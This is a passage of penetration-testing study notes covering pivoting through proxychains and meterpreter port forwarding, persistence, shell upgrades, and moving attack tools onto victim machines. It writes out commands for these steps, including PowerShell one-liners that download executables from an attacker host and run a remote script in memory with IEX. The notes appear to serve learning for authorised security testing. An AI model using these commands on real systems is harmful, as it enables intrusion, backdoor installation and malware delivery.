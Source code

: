 			sudo bash -c "socks4 127.0.0.1 1080" >> /etc/proxychains.conf
		Finally, we can use proxychains to run rdestop to obtain GUI access from our kali machine to the machine in the internal network:
			sudo proxychains rdesktop 192.168.1.110
	Port forwarding:
		We can use the portfwd command from inside a meterpreter session, which will forward a specific port into the internal network:
			meterpreter > portfwd -h
			meterpreter > add -l 3389 -p 3389 -r 192.168.1.110
		Then, we point the rdesktop application to our localhost to actually connect to the machine in the internal network on 192.168.1.110:
rdesktop 127.0.0.1
Metasploit automation:
	Resource scripts:
		sudo msfconsole -r setup.rc

#### 4 - Maintaining Access & Persistence (post-exploitation)
meterpreter > run persistence -h
Listeners w/ nc or meterpreter multi/handler
Further actions:
	Elevating privileges
	Installing backdoors
	Upoading files and attack tools to the victim"s system
Pwncat: https://github.com/calebstewart/pwncat  

##### File Transfers
Dangers of transferring attack tools:
	Post-exploitation attack tools may be abused by malicious third parties
	Anti-virus software scans for pre-define file signatures on endpoint hosts and can generate huge frustration in these phase
	We should always try to use native tools on the compromise system
	We can upload our tools when we think that native tools on the victim machine are insufficient
Pure-FTPd
	Installing Pure-FTPd on the kali attacker machine: sudo apt-get update && sudo apt-get install pure-ftpd
	Create the relevant group and user, configure folder permission and start the FTP server with the custom script: setup-ftp.sh
Interactive vs non-interactive shells:
	Non-interactive shells (like for example nc bind and reverse shells) can be a problem when using services such as FTP, when the standard output of the service we interact with is not properly forwarded to the attacked by the shell and controll of the shell is lost.
	We need to upgrade a non-interactive shell to a fully interactive shell with the python pty shell: python -c 'import pty; pty.spawn("/bin/bash")'
Transferring files with UNIX-like environments:
	nc
	curl
	wget
Transferring files with Windows hosts:
	Non-interactive FTP download: Windows ships with a default FTP client that can be used for file trasfers. To do this, we can instruct this Windows FTP client to download from our attacker Pure-FTPd server a simple text file containing all the FTP commands to execute sequentially to connect, download the intended file and close the connection
Windows downloads using scripting languages VBScript and PowerShell:
	cscript wget.vbs http://10.11.0.4/wget.exe evil.exe
	powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
	or as a 1-liner: powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe', 'evil3.exe') or as variant WITHOUT writing anything to disk on the victim machine: 
		On the attacker machine we save the simple PowerShell script helloworld,ps1 (with content: Write-Output "Hello World")
		On the victim machine: powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
Windows downloads with exe2hex and PowerShell: